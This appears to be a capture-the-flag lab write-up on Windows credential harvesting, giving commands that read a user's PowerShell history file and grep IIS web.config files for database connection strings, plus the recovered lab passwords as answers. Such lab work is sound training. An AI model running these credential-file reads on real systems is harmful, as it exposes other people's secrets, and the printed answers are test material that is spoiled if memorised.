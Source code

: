 - Unattended Windows Installations
- Powershell History
- Saved Windows Credentials
- IIS Configuration
- Retrieve Credentials from Software: PuTTY

### Questions

##### A password for the julia.jones user has been left on the Powershell history. What is the password?

```cmd
cmd /c type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

Result:

```powershell
ls
whoami
...
cmdkey /add:thmdc.local /user:julia.jones /pass:ZuperCkretPa5z
cmdkey /list
cmdkey /delete:thmdc.local
```

> ZuperCkretPa5z

##### A web server is running on the remote host. Find any interesting password on web.config files associated with IIS. What is the password of the db_admin user?

Find `web.config`

```bash
where \R C:\ *flag*
```

or

```bash
cmd /c dir "web.config" /s
```

Find the db credential

```bash
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

Result:

```bash
 <connectionStrings>
        <add connectionString="Server=thm-db.local;Database=thm-sekure;User ID=db_admin;Password=098n0x35skjD3" name="THM-DB" />
    </connectionStrings>
```

